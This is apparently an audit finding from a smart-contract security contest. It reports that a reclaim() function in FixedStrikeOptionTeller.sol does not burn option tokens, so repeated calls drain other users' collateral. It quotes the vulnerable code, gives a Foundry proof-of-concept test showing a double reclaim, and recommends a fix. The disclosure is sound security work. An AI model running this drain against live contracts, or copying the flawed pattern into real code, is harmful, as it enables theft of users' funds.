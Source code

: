 Sm4rty

high

# Attacker can Steal Other User's Collateral

## Summary
The `FixedStrikeOptionTeller.sol` contract contains a vulnerability that allows an attacker to steal collateral from other users after their options have expired. The issue lies in the reclaim function, which is responsible for allowing users to claim their collateral if they choose not to exercise the option.

## Vulnerability Detail
When a user triggers the reclaim() function, the total supply of the option token is stored in an "amount" variable, and the corresponding amount is transferred to the receiver. However, the option token is not burned during this operation. As a result, if the function is called multiple times by the receiver, the total supply remains the same and it repeatedly transfers the same amount to the receiver, ultimately draining the entire balance. 

## Impact
This vulnerability enables an attacker to exhaust the balance of other users who have not reclaimed their collateral after the expiration of their options.

## Code Snippet
https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L395
```solidity
    function reclaim(FixedStrikeOptionToken optionToken_) external override nonReentrant {
        // Load option parameters
        (
            ERC20 payoutToken,
            ERC20 quoteToken,
            uint48 eligible,
            uint48 expiry,
            address receiver,
            bool call,
            uint256 strikePrice
        ) = optionToken_.getOptionParameters();

        // Retrieve the internally stored option token with this configuration
        // Reverts internally if token doesn't exist
        FixedStrikeOptionToken optionToken = getOptionToken(
            payoutToken,
            quoteToken,
            eligible,
            expiry,
            receiver,
            call,
            strikePrice
        );

        // Revert if token does not match stored token
        if (optionToken_ != optionToken) revert Teller_UnsupportedToken(address(optionToken_));

        // Revert if not expired
        if (uint48(block.timestamp) < expiry) revert Teller_NotExpired(expiry);

        // Revert if caller is not receiver
        if (msg.sender != receiver) revert Teller_NotAuthorized();

        // Transfer remaining collateral to receiver
        uint256 amount = optionToken.totalSupply();
        if (call) {
            payoutToken.safeTransfer(receiver, amount);
        } else {
            // Calculate amount of quote tokens equivalent to amount at strike price
            uint256 quoteAmount = amount.mulDiv(strikePrice, 10 ** payoutToken.decimals());
            quoteToken.safeTransfer(receiver, quoteAmount);
        }
    }

```

## Tool used
Manual Review
Foundry

## Proof of Concept:
Add the test to the existing setUp and run it. 

```solidity
    function test_double_reclaim() public {
        // Deploy call option token with receiver as alice.
        uint256 strikePrice = 5 * 10 ** def.decimals();
        FixedStrikeOptionToken optionToken = teller.deploy(
            abc,
            def,
            uint48(0),
            uint48(block.timestamp + 8 days),
            alice,
            false,
            strikePrice
        );

        //Deploy call option token with receiver as bob.
        FixedStrikeOptionToken optionToken1 = teller.deploy(
            abc,
            def,
            uint48(0),
            uint48(block.timestamp + 8 days),
            bob,
            false,
            strikePrice
        );

        uint256 amount = 100 * 10 ** abc.decimals();

        // Alice and Bob Mints option tokens by depositing collateral (quote tokens)
        vm.prank(alice);
        teller.create(optionToken, amount);

        vm.prank(bob);
        teller.create(optionToken1, amount);

        // Warp forward past expiry
        vm.warp(block.timestamp + 9 days);


        //Alice reclaims twice, effectively stealing Bob's Collateral.
        vm.startPrank(alice);
        teller.reclaim(optionToken);
        teller.reclaim(optionToken); 
        vm.stopPrank();
    }

```

## Recommendation
Burn the Option Token in the reclaim function.
